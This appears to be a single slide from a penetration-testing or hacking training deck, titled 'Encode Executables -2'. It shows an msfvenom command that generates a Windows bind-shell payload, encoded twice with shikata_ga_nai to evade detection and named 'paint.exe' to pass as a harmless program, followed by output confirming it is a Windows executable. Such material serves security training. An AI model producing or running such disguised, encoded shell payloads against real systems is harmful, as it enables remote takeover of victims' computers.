

# Encode Executables -2
# msfvenom -p windows/shell_bind_tcp -f exe -b "\x00\xff" -e x86/shikata_ga_na -i 2 > paint.exe

# file paint.exe
paint.exe: PE32 executable for MS Windows (GUI) Intel 80386 32-bit
52